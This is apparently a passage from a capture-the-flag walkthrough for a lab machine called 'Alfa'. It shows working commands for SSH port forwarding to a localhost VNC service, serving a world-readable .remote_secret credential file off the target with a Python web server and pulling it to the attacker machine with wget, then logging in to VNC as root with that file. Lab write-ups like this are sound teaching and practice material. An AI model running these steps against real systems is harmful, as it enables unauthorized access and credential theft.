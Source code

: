 Local Port Forwarding allow me to connect from the local machine to another server securely, so all data sent to port 4444 on attacking machine is forwarded to port 5901 on target host.

```console
root@kali:~$ ssh -L 127.0.0.1:4444:127.0.0.1:5901 -l thomas 192.168.179.167 -p 65111 -N
thomas@192.168.179.167's password:
```

Locally we can check that port 4444 is listening.

```console
root@kali:~$ ss -antl | grep 4444
LISTEN 0      128        127.0.0.1:4444      0.0.0.0:* 
```

Service enumeration and script scanning was performed locally on port 4444 to detect which service is running on it.

```console
root@kali:~$ nmap -sV -sC -p4444 127.0.0.1
...
PORT     STATE SERVICE VERSION
4444/tcp open  vnc     VNC (protocol 3.8)
```

In the previous result we can see that the VNC service is running, also in the home directory of Thomas the **.remote_secret** file was found.

```console
thomas@Alfa:~$ ls -la   
...
-rwxrwxrwx 1 root   root     16 dic 17  2020 .remote_secret 
...
```

We start a web server with python on target machine.

```console
thomas@Alfa:~$ python3 -m http.server
```

We download it to the attacking machine with wget.

```console
root@kali:~$ wget 192.168.179.167:8000/.remote_secret
```

## Privile Escalation
### Access via VNC

We connect to VNC using the **.remote_secret** file as password, and we have access to a root shell.

```console
root@kali:~$ vncviewer -passwd .remote_secret 127.0.0.1:4444
```

